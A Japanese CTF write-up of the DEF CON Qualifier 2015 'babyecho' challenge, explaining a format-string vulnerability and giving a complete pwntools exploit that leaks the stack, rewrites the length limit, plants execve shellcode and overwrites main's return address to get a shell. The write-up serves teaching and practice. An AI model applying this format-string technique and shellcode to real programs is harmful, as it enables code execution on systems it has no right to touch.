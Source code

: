 ```yaml
---
layout: post
redirect_from:
  - /writeup/ctf/2015/defcon-qualifier-ctf-2015-babyecho/
  - /blog/2016/01/08/defcon-qualifier-ctf-2015-babyecho/
date: 2016-01-08T02:18:11+09:00
tags: [ "ctf", "pwn", "writeup", "format-string-attack", "shellcode" ]
---
```


# DEF CON Qualifier 2015: babyecho

## [Baby's First 1: babyecho](https://github.com/ctfs/write-ups-2015/tree/master/defcon-qualifier-ctf-2015/babys-first/babyecho)

>   babyecho\_eb11fdf6e40236b1a37b7974c53b6c3d.quals.shallweplayaga.me:3232  
>   [Download]()

format文字列攻撃の脆弱性のあるバイナリ。

``` sh
$ ./babyecho
Reading 13 bytes
%p
0xd
Reading 13 bytes
%10d%hhn
zsh: segmentation fault (core dumped)  ./babyecho
```

全て読むにはつらい大きなバイナリであるが、セキュリティ機構はほとんど存在していない。
libcを静的にlinkしているようである。
`%n`を入力すると`_n`が返ってくることなどから分かるが、libcの関数そのものではなく多少手が入れられている。

``` sh
$ ll babyecho
-rwxr-x--x 1 user user 664936 Jan  7 23:50 babyecho
$ ldd babyecho
    not a dynamic executable
$ checksec --file babyecho
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   babyecho
```

中を覗くと、main関数は以下のようなものと考えてよいと分かる。

``` c
int main(void) {
    char buf[1024];
    int flag = 0;
    char *p = buf;
    int len = 13;
    while (flag == 0) {
        assert (len <= 1024);
        printf("Reading %d bytes\n", len);
        fgets(stdin, buf, len);
        printf(buf);
        putchar('\n');
    }
    return 0;
}
```

攻撃の手順は以下のようになる。

-   `p`を表示し`esp`を得る。
-   `len`を書き換え長い文字列を送り込めるようにする。
-   `buf`にshellcodeを載せ、`main`の戻りアドレスをshellcodeへのポインタで書き換え、`flag`を書き換える。

これを実行するコードは以下のようになる。

``` python
#!/usr/bin/env python2
from pwn import * # https://github.com/Gallopsled/pwntools/tree/2.2/pwnlib

context.log_level = 'debug'
p = remote('localhost', 8022)
# p = process('./babyecho')

# ebp of main
# ret from printf
# buf        # esp
# 0xd        # esp + 0x4, $1
# 0xa        # esp + 0x8, $2
# 0x0        # esp + 0xc, $3
# 0xd        # esp + 0x10, $4, len of buf
# 0xffbd510c # esp + 0x14, $5, ptr to buf
# 0x0        # esp + 0x18, $6, break flag
# buf        # esp + 0x1c, $7
# ret        # esp + 0x42c, ret addr from main

p.recvline_regex('Reading \d+ bytes\n') # 13 bytes
p.sendline('%5$p')
buf = int(p.recvline(keepends=False), 16)
esp = buf - 0x1c

p.recvline_regex('Reading \d+ bytes\n') # 13 bytes
p.sendline(p32(esp + 0x10) + '%99d' + '%7$n')

p.recvline_regex('.*Reading \d+ bytes\n') # 103 bytes
p.sendline(p32(esp + 0x10) + '%999d' + '%7$n')

# http://shell-storm.org/shellcode/files/shellcode-827.php
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
p.recvline_regex('.*Reading \d+ bytes\n') # 1003 bytes

payload = ''
payload += p32(esp + 0x18) # $7
payload += p32(esp + 0x42c) # $8
payload += p32(esp + 0x42c + 1) # $9
payload += p32(esp + 0x42c + 2) # $10
payload += p32(esp + 0x42c + 3) # $11
ptr = esp + 0x1c + len(payload)
payload += shellcode
initial_len = len(payload)
payload += '%7$hhn'
payload += ('%%%dd' % ((ord(p32(ptr)[0]) -      initial_len) % 0x100 + 0x100)) + '%8$hhn'
payload += ('%%%dd' % ((ord(p32(ptr)[1]) - ord(p32(ptr)[0])) % 0x100 + 0x100)) + '%9$hhn'
payload += ('%%%dd' % ((ord(p32(ptr)[2]) - ord(p32(ptr)[1])) % 0x100 + 0x100)) + '%10$hhn'
payload += ('%%%dd' % ((ord(p32(ptr)[3]) - ord(p32(ptr)[2])) % 0x100 + 0x100)) + '%11$hhn'
p.sendline(payload)

p.sendline('ls')
p.interactive()
```

